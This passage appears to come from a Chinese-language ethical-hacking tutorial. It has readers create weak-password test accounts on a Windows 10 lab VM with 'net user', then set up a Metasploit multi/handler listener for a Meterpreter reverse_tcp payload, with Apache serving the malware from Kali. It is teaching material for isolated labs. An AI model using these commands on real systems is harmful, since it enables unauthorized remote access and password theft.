 1.  在 VirtualBox 中打开你的 Windows 10 虚拟机（使用 `IEUser` 和 `Passw0rd!` 登录）。

1.  在 Windows 搜索栏中输入 `cmd`，右键点击 **命令提示符** 应用，然后点击 **以管理员身份运行**。当 Windows 提示是否允许此应用对设备进行更改时，点击 **是**。

1.  使用我们在第二章的 Sticky Keys 黑客攻击中使用的相同命令，创建一个新用户帐户：

    ```
    C:\WINDOWS\system32> `net user ironman Jarvis /add`
    ```

    此命令添加一个名为 *ironman* 的用户，密码为 *Jarvis*。

1.  现在添加几个更多的用户帐户，密码的复杂度和长度各不相同：

    ```
    C:\WINDOWS\system32> `net user ana Password1 /add`
    C:\WINDOWS\system32> `net user ben P@$$w0rd! /add`
    C:\WINDOWS\system32> `net user carol CaptainMarvel /add`
    C:\WINDOWS\system32> `net user clark superman20 /add`
    C:\WINDOWS\system32> `net user kara SuperGirl7! /add`
    C:\WINDOWS\system32> `net user peter SpidermanRulez:) /add`
    ```

1.  在执行完最后一个命令后，Windows 会警告你密码超过了 14 个字符（这是 2000 年之前 Windows 机器上对密码长度的限制！）。输入 `Y` 以告知 Windows 你仍然想使用这个长密码。

1.  最后，为一个使用你名字的用户名创建一个强密码（由至少四个单词组成，加上一个数字或特殊符号），但请确保这是一个假的密码，不用于任何真实账户，因为我们将尝试破解它。以下是我的示例：

    ```
    C:\WINDOWS\system32> `net user` `bryson Don'tyouwishyourpasswordwastoughlikemine!` `/add`
    ```

你可能觉得这样的密码每次登录时打字很麻烦，但实际上它比你添加的大多数密码更容易记住，也更难猜测。

### 使用 Meterpreter 反向攻击 Windows 10

接下来，我们需要从 Kali 中反向攻击进入 Windows 10 虚拟机。

1.  启动你的 Kali 虚拟机（用用户名和密码 `kali` 登录），点击 Kali 菜单按钮，选择 **08 - Exploitation Tools**▶**Metasploit Framework** 打开 Metasploit 应用。

1.  在 `msf6` 命令提示符下，输入以下命令以再次启动 Kali Web 服务器：

    ```
    msf6 >`sudo service apache2 start`
    ```

    Web 服务器将提供包含你 Windows 恶意软件的 *10.0.9.x/share* 文件夹，以防你需要重新下载它。

1.  在 Metasploit 中输入以下四个命令，监听 Meterpreter 木马回拨：

    ```
    msf6 >`use exploit/multi/handler`
    msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
    msf6 exploit(multi/handler) >`set LHOST` `10.0.9.x`
    msf6 exploit(multi/handler) >`exploit -j`
    ```
